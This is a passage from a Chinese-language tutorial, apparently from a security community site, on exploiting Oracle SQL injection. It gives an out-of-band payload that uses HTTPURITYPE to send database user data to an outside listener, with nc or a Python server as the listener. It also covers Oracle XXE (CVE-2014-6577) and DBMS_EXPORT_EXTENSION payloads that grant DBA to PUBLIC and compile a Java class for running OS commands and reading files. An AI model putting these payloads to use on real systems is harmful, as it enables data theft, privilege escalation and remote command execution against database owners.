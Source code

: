 ```
?id=1 and (select HTTPURITYPE('http://192.168.100.130:4455/'||(select user from dual)).GETCLOB() FROM DUAL)is not null --
```

同样需要python起一个http服务，或者nc创建监听
[![img](/img/oracle/Oracle数据库注入全方位利用 - 先知社区_files/20210729095419-e3922c84-f00f-1.png)](/img/oracle/Oracle数据库注入全方位利用 - 先知社区_files/20210729095419-e3922c84-f00f-1.png)
虽然访问404，但是同样成功外带数据。
[![img](/img/oracle/Oracle数据库注入全方位利用 - 先知社区_files/20210729095420-e3afe684-f00f-1.png)](/img/oracle/Oracle数据库注入全方位利用 - 先知社区_files/20210729095420-e3afe684-f00f-1.png)

# 0x08 XXE

#### Oracle XXE(CVE-2014-6577)

***受影响版本：11.2.0.3, 11.2.0.4, 12.1.0.1 和12.1.0.2\***

这里Oracle的XXE的利用效果和UTL_http的效果差不多，都是将数据传输到远端服务器上，但是，由于extractvalue()函数对所有数据库用户都可以使用，不存在权限的问题，所以当在低权限没有UTL_http访问权限时，这个不失为一个好方法。



# 0x09 getshell

#### 1、DBMS_EXPORT_EXTENSION()

> - 影响版本：Oracle 8.1.7.4, 9.2.0.1-9.2.0.7, 10.1.0.2-10.1.0.4, 10.2.0.1-10.2.0.2, XE(Fixed in CPU July 2006)
> - 权限：None
> - 详情：这个软件包有许多易受PL/SQL注入攻击的函数。这些函数由SYS拥有，作为SYS执行并且可由PUBLIC执行。因此，如果SQL注入处于上述任何未修补的Oracle数据库版本中，那么攻击者可以调用该函数并直接执行SYS查询。

提权：该请求将导致查询"GRANT DBA TO PUBLIC"以SYS身份执行。 因为这个函数允许PL / SQL缺陷（PL / SQL注入）。一旦这个请求成功执行，PUBLIC获取DBA角色，从而提升当前user的特权

```
select SYS.DBMS_EXPORT_EXTENSION.GET_DOMAIN_INDEX_TABLES('FOO','BAR','DBMS_OUTPUT".PUT(:P1);EXECUTE IMMEDIATE ''DECLARE PRAGMA AUTONOMOUS_TRANSACTION;BEGIN EXECUTE IMMEDIATE ''''grant dba to public'''';END;'';END;--','SYS',0,'1',0) from dual
```

使用java

（1) 创建Java库

```
select SYS.DBMS_EXPORT_EXTENSION.GET_DOMAIN_INDEX_TABLES('FOO','BAR','DBMS_OUTPUT".PUT(:P1);EXECUTE IMMEDIATE ''DECLARE PRAGMA AUTONOMOUS_TRANSACTION;BEGIN EXECUTE IMMEDIATE ''''create or replace and compile java source named "LinxUtil" as import java.io.*; public class LinxUtil extends Object {public static String runCMD(String args){try{BufferedReader myReader= new BufferedReader(new InputStreamReader(Runtime.getRuntime().exec(args).getInputStream() ) ); String stemp,str="";while ((stemp = myReader.readLine()) != null) str +=stemp+"\n";myReader.close();return str;} catch (Exception e){return e.toString();}}public static String readFile(String filename){try{BufferedReader myReader= new BufferedReader(new FileReader(filename)); String stemp,str="";while ((stemp = myReader.readLine()) != null) str +=stemp+"\n";myReader.close();return str;} catch (Exception e){return e.toString();}}}'''';END;'';END;--','SYS',0,'1',0) from dual
```

